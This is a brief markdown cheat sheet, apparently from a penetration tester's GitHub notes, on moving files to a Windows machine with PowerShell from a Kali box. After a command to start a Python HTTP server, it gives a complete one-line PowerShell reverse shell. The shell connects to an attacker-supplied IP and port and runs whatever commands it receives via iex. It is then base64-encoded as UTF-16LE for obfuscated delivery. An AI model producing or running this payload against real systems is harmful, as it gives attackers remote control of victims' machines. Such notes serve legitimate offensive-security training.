 # Powershell commands


**Transfering files to a windows machine with powershell**

**Start a python http server on you kali box**

`sudo python3 -m http.server 80`

**On your kali box you can encode a powershell command like the following example** *It's a oneline reverse shell (change "ip addr" and port to your info)*

`echo '$client = New-Object System.Net.Sockets.TCPClient("ip addr",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv --to-code UTF-16LE | base64 -w 0`
